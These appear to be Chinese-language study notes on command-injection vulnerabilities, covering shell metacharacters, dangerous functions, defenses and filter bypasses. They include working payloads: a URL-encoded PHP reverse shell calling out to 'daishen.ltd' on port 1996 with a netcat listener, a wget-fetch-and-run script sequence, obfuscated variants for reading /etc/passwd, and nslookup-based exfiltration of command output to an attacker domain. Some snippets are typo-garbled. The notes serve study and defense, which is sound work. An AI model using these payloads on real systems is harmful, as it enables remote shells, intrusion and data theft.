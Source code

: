 # 命令执行漏洞

系统命令执行

&、&&、|、||

```
&	#后台执行
&& 	#前一条命令执行成功，才执行后面一条命令
|	#上一条命令输出作为下一条命令的参数
||	#上一条命令执行失败后才执行下一条命令
; 	# 多个命令顺序执行
	换行符(\n或0x0a)
```

在基于 Unix 的系统上，您还可以使用反引号或美元字符在原始命令中执行注入命令的内联执行：

```
` 注入命令 `
$( 注入命令 )
```

请注意，不同的 shell 元字符具有细微的不同行为，这些行为可能会影响它们是否在某些情况下工作，以及它们是否允许带内检索命令输出或仅对盲目利用有用。
有时，您控制的输入会出现在原始命令的引号内。在这种情况下，您需要在使用合适的 shell 元字符注入新命令之前终止引用的上下文（使用"或'）。



代码命令执行

PHP:  system、exec、shell、exec、popen、proc_popen 等

Python: eval()、 os.system()、 subprocess.Popen等

| 命令的目的 | Linux         | Windows         |
| :--------- | :------------ | :-------------- |
| 当前用户名 | `whoami`      | `whoami`        |
| 操作系统   | `uname -a`    | `ver`           |
| 网络配置   | `ifconfig`    | `ipconfig /all` |
| 网络连接   | `netstat -an` | `netstat -an`   |
| 运行进程   | `ps -ef`      | `tasklist`      |

# 命令执行利用场景

1.存在回显的情况

2.可以执行延时函数的情况

# 系统命令执行与代码命令执行漏洞的检测与利用

系统命令

![image-20210616094722183](D:\BaiduNetdiskDownload\安全\命令执行漏洞\命令执行漏洞原理与应用场景.assets\image-20210616094722183.png)

代码命令执行

```
ip=127.0.0.1+%26%26+php -r '$sock=fsockopen("daishen.ltd",1996);exec("/bin/bash -i <&3 >&3 2>&3")'&Submit=Submit
```

```
nc -lvvp 1996
```

```
System('wget xxxxx/1.sh';
System('Is');
System('chmod +X 1.sh');
system(/bin/bash 1.sh');

```

# 系统命令执行与代码命令执行防御与绕过

不使用命令执行函数

如果一定使用命令执行函数，则进行输入验证：

- 根据允许值的白名单进行验证。
- 验证输入是否为数字。
- 验证输入仅包含字母数字字符，没有其他语法或空格。

输入的命令尽量使用占位符，不要直接拼接变量

尽量不要执行危险函数，将disable_functions禁用

使用escapeshellcmd函数进行过滤

使用safe_mode_exec_dir，指定可执行文件路径

永远不要试图通过转义 shell 元字符来清理输入。在实践中，这太容易出错并且容易被熟练的攻击者绕过。

绕过

```
%0a\%0d    换行，回车

cat /etc/passwd >>>> c""at /etc/pas""swd >>>> ca\t /etc/pas\swd >>>> ca\t /etc/pas???

whoami >>>> w"h"o"a"mi >>>> (w"h"o"a"mi) >>>> wh""""""""""oami

ping 127.0.0.1 >>>> ping 2130706433
```

### 通过重定向输出利用盲操作系统命令注入

您可以将注入命令的输出重定向到 Web 根目录中的文件中，然后您可以使用浏览器检索该文件。例如，如果应用程序从文件系统位置提供静态资源`/var/www/static`，那么您可以提交以下输入：

```
& whoami > /var/www/static/whoami.txt &
```

`>`字符发送从所述输出`whoami`命令指定的文件。然后，您可以使用浏览器来获取`https://vulnerable-website.com/whoami.txt`文件，并查看注入命令的输出。

### 使用带外 ( [OAST](https://portswigger.net/burp/application-security-testing/oast) ) 技术利用 OS 命令盲注入

您可以使用注入的命令，使用 OAST 技术触发与您控制的系统的带外网络交互。例如：

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用该`nslookup`命令对指定域进行 DNS 查找。攻击者可以监视指定的查找发生，从而检测到命令已成功注入。

带外通道还提供了一种从注入的命令中提取输出的简单方法：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对包含`whoami`命令结果的攻击者域进行 DNS 查找：

```
wwwuser.kgji2ohoyw.web-attacker.com
```
